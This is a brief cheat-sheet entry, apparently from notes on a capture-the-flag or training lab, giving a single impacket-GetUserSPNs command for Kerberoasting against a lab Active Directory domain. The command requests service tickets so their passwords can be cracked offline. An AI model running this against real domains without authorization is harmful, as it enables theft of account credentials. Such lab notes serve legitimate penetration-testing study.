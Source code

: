 ## kerberoast with impacket-GetUserSPNs
```bash
impacket-GetUserSPNs -dc-ip $IP -request LAB.ENTERPRISE.THM/username
```

